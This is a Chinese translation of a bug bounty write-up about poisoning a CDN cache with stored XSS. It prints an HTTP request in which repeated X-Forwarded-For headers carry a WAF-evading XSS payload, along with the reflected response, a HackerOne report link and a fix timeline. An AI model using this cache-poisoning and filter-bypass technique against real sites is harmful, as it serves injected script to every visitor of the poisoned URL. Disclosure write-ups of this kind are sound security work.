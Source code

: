 # 我如何通过入侵 CDN 缓存服务器赚到 16500 美元——第二部分

> 原文：<https://infosecwriteups.com/how-i-made-16-500-hacking-cdn-caching-servers-part-2-4995ece4c6e6?source=collection_archive---------1----------------------->

## @bxmbn

![](img/0e9c917ff9ee765e0488c6c45b3afa3b.png)

# 隐藏 XSS 的好方法

> *赏金:2000 美元*

在 Google Dorking 时，我发现了一个特定的 URL，但这次没有被缓存，而是添加了一个可缓存的扩展文件(。js，。css)在 URL 的末尾，它将缓存响应。

现在，我只需要找到一个 XSS。我在一个 Cookie 上找到了一个注入点，但是当我在%20 之后添加任何东西时，WAF 就会被触发

```
Cookie: cookiename=xss</script%20
```

在试图绕过 WAF 时，我意识到我的 IP 也反映在同一个脚本上..

```
guid="</script ","24.99.19.20"
```

由于我的 IP 被反射，我尝试了“X-Forwarded-For”报头，这样我可以关闭

这就是为什么您会看到 3 个“X-Forwarded-For”标题

## 请求:

```
GET /xxx/xx/xxx.xx/x.js?t=2021111121 HTTP/2 
Host: Redacted
X-Forwarded-For: xss 
X-Forwarded-For: xss><svg/onload=globalThis[`al`+/ert/.source]`1`// X-Forwarded-For: > 
Cookie: gdId=xss</script%20
```

## 回应:

```
...
guid="</script ","24.99.19.20","xss","xss><svg/onload=globalThis[`al`+/ert/.source]`1`//,">
...
```

在用 XSS 毒化了一个 URL 之后，攻击者只需要把它发送给受害者

```
redacted.com/xxx/xx/xxx.xx/x.js?t=2021111121
```

隐藏 XSS·:D 的好方法

这是我最喜欢的缓存中毒，它是在一个公共程序中发现的

【https://hackerone.com/reports/1424094 

# 时间线:

> 上报→2021 年 12 月 11 日
> 
> 分流→2021 年 12 月 14 日
> 
> 悬赏奖金→2022 年 1 月 7 日
> 
> 固定→2022 年 3 月 7 日

# 接下来:

第 3 部分:通过 X-Forwarded-Scheme 头的缓存中毒 DoS

# 🔈 🔈Infosec Writeups 正在组织其首次虚拟会议和网络活动。如果你对信息安全感兴趣，这是最酷的地方，有 16 个令人难以置信的演讲者和 10 多个小时充满力量的讨论会议。[查看更多详情并在此注册。](https://iwcon.live/)

[](https://iwcon.live/) [## IWCon2022 - Infosec 书面报告虚拟会议

### 与世界上最优秀的信息安全专家建立联系。了解网络安全专家如何取得成功。将新技能添加到您的…

iwcon.live](https://iwcon.live/)
